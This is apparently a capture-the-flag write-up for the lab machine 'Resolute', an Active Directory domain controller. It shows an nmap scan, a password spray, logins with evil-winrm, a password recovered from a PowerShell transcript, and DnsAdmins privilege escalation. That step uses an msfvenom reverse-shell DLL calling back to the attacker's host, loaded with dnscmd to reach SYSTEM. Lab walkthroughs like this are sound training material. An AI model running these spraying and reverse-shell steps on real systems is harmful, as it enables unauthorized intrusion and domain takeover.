


# Enumeration
```bash
Nmap scan report for 10.10.10.169
Host is up (0.013s latency).

PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-01-18 01:02:23Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf       .NET Message Framing
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/17%Time=5E225762%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m32s, deviation: 4h37m09s, median: 7m30s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2020-01-17T17:03:05-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-01-18T01:03:02
|_  start_date: 2020-01-17T22:07:40

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 143.26 seconds
```

## Initial Foothold
I used linux4enum script, and saw this: </br>
 </br>
I tried authenticating with this username and password (marko:Welcome123!) using evil-winrm and psexec but it failed, I then tried authenticating via smb but it was failed too (crackmapexec smb 10.10.10.169 -u marko -p 'Welcome123!') </br>
I created a list of the users with the command: ```cat users | awk -F\[ '{print $2}' | awk -F\] '{print $1}' > users)``` </br>
and tried to do a password spray using crackmapexec: </br>
```crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' --continue-on-success``` </br>
And found a user: </br>
 </br>
I connected to melanie with evil-winrm: </br>
```evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'``` </br> </br>
# Privilege Escalation
After a while of enumeration, I went to the file system root: </br>
```bash
*Evil-WinRM* PS C:\> ls

    Directory: C:\

Mode                LastWriteTime         Length Name    
----                -------------         ------ ----    
d-----        9/25/2019   6:19 AM                PerfLogs
d-r---        9/25/2019  12:39 PM                Program Files
d-----       11/20/2016   6:36 PM                Program Files (x86)
d-r---        12/4/2019   2:46 AM                Users   
d-----        12/4/2019   5:15 AM                Windows 
```

and tried using the flag ```-force``` to see if there are any hidden folders, similar to running ```ls -la``` in linux. </br>
```bash
*Evil-WinRM* PS C:\> dir -force

    Directory: C:\

Mode                LastWriteTime         Length Name    
----                -------------         ------ ----    
d--hs-        12/3/2019   6:40 AM                $RECYCLE.BIN
d--hsl        9/25/2019  10:17 AM                Documents and Settings
d-----        9/25/2019   6:19 AM                PerfLogs
d-r---        9/25/2019  12:39 PM                Program Files
d-----       11/20/2016   6:36 PM                Program Files (x86)
d--h--        9/25/2019  10:48 AM                ProgramData
d--h--        12/3/2019   6:32 AM                PSTranscripts
d--hs-        9/25/2019  10:17 AM                Recovery
d--hs-        9/25/2019   6:25 AM                System Volume Information
d-r---        12/4/2019   2:46 AM                Users   
d-----        12/4/2019   5:15 AM                Windows 
-arhs-       11/20/2016   5:59 PM         389408 bootmgr 
-a-hs-        7/16/2016   6:10 AM              1 BOOTNXT 
-a-hs-        1/17/2020   2:07 PM      402653184 pagefile.sys   
```

PSTranscripts seemed unique, it contained one file inside: </br>
```bash
   Directory: C:\PSTranscripts\20191203

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt    
```

 </br>
It looked like ryan password is: Serv3rAdmin4cc123! </br> </br>
Ryan user is in DNSAdmins group, and he could inject a malicious plugin to the dns service, that will eventually run with nt/authority privileges. </br>
It  is possible to load an arbitrary DLL into a DNS service running on a Domain Controller through the following steps: </br>
- The attacker needs to be part of the DnsAdmins group to run dnscmd executable and point the service to a DLL on a UNC path. </br>
- The attacker restarts the DNS service using “sc.exe stop/start dns”—this is a limitation as default configurations do not allow DnsAdmins users to stop and start services. </br>


**How I did it:** </br>
Generated the payload: ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=1234 --platform=windows -f dll > plugin.dll``` </br>
Because the Windows machine is of 64 bit achitechture, I chose to use the x64 payload. </br>
On another terminal tab, I set up a netcat listener to catch the reverse shell: ```nc -nlvp 1234``` </br>
- dnscmd.exe megabank.local /config /serverlevelplugindll \\10.10.14.32\kali\plugin.dll </br>
- sc.exe stop </br>
- sc.exe start </br>


And I got a connection. </br>
```bash
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```


